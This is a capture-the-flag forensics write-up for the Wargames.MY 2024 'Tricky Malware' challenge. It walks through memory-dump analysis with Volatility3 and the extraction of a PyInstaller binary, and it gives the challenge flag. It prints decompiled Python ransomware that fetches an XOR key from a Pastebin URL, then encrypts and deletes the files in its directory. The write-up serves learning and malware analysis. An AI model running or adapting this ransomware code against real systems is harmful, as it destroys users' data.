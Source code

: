 # [ WriteUp/Notes ] | Tricky Malware | Forensic - Wargames.MY CTF 2024

## By: Haaloobim as [HCS](https://ctftime.org/team/70159)

## Description 
1. Desc: 
My SOC detected there are Ransomware that decrypt file for fun. The script kiddies is so tricky. Here some evidence that we successfully retrieve.

2. Tools:
- [Volatiity3](https://github.com/volatilityfoundation/volatility3)
- [pyinstxtractor](https://pyinstxtractor-web.netlify.app/) 
- [PyLingual](https://pylingual.io/)
- IDA Decompiler

3. File: 
- [Evidence.rar](http://files.wargames.my/2024/Evidence.rar)

## How to solve? 

- We've been provided with a .rar file. In that archive file we've been provided by `.mem` file and `.pcap` file. We use volatility3 to analyze the `.mem` file. For the first phase of analyzing i use `cmdline`, `filescan`, and `pstree` plugin to anayze the file. here is the result. [cmdline](./src/cmdline.txt), [filescan](./src/filescan.txt), [pstree](./src/pstre.txt)    

- After analyzing those plugin result and based on the description, we assumed that at least one of these file is the malware referred to in the description. here is the file:
    - Tabtip.exe 
    - Crypt.exe
    - Slui.exe

- Why we assumed that suspicious, because the filename and where the file took place in the users directory, like example `Crypt.exe` took place in the `\Users\user\Desktop\` beside the `.mem` file, it make me assume that Crypt.exe its not a system/legit file. 
    **you can see the directory of the file using filescan plugin*

- And from that point we dump all that file and start to analyze it. 

    ```sh
    python3 vol3/vol.py -f memdump.mem dumpfiles --virtaddr 0xbc0ca61199b0 # Tabtip.exe
    python3 vol3/vol.py -f memdump.mem dumpfiles --virtaddr 0xbc0ca880fa80 # slui.exe
    python3 vol3/vol.py -f memdump.mem dumpfiles --virtaddr 0xbc0ca7eb88c0 # Crypt.exe
    ```
    **all of that virtual address is based on the offset in the filescan plugin result*

- When we analyze all of that three file, one of my teammate notice that one of the file is using pyinstaller and when we look it in the IDA decompiler it also says that the executable in the pyinstaller environment. 

    ![](./src/pyinstaller.png)

- After noticing that it used pyinstaller i used these two tools to extrct and decompile the file. [pyinstxtractor](https://pyinstxtractor-web.netlify.app/) | [PyLingual](https://pylingual.io/) and got this based python code. 

    ```python
    import os
    import requests

    def fetch_key_from_pastebin(url):
        """Fetch the encryption key from a Pastebin URL."""  # inserted
        try:
            response = requests.get(url)
            response.raise_for_status()
            return response.text.strip()
        except requests.exceptions.RequestException as e:
            print(f'Error fetching key: {e}0')
        else:  # inserted
            pass

    def xor_encrypt_decrypt(data, key):
        """Encrypt or decrypt data using XOR with the given key."""  # inserted
        key_bytes = key.encode('utf-8')
        key_length = len(key_bytes)
        return bytes([data[i] ^ key_bytes[i % key_length] for i in range(len(data))])

    def process_file(file_path, key, encrypt=True):
        """Encrypt or decrypt a file and modify its extension."""  # inserted
        try:
            with open(file_path, 'rb') as file:
                pass  # postinserted
        except Exception as e:
                data = file.read()
                processed_data = xor_encrypt_decrypt(data, key)
                if encrypt:
                    new_file_path = file_path + '.oiiaiouiiiai'
                else:  # inserted
                    new_file_path = file_path.rsplit('.oiiaiouiiiai', 1)[0]
                with open(new_file_path, 'wb') as file:
                    file.write(processed_data)
                    os.remove(file_path)
                    print(f'Processed {file_path} -> {new_file_path}')
                print(f'Failed to process {file_path}: {e}')
    if __name__ == '__main__':
        pastebin_url = 'https://pastebin.com/raw/PDXfh5bb'
        key = fetch_key_from_pastebin(pastebin_url)
        if not key:
            print('Failed to retrieve the key.')
            exit(1)
        for file_name in os.listdir():
            if not os.path.isfile(file_name):
                continue
            if file_name == os.path.basename(__file__):
                continue
            if file_name.endswith('.oiiaiouiiiai'):
                process_file(file_name, key, encrypt=False)
            else:  # inserted
                process_file(file_name, key, encrypt=True)
    ```

- As we can see, in that Python code, it encrypts the file and changes its extension to `.oiiaiouiiiai` as an encrypted file. The encryption process uses an XOR operation with a key fetched from Pastebin.

- Then, when we follow through that pastebin link, we can find the flag in it. 

![](./src/flag.png)

#### Flag: `WGMY{8b9777c8d7da5b10b65165489302af32}`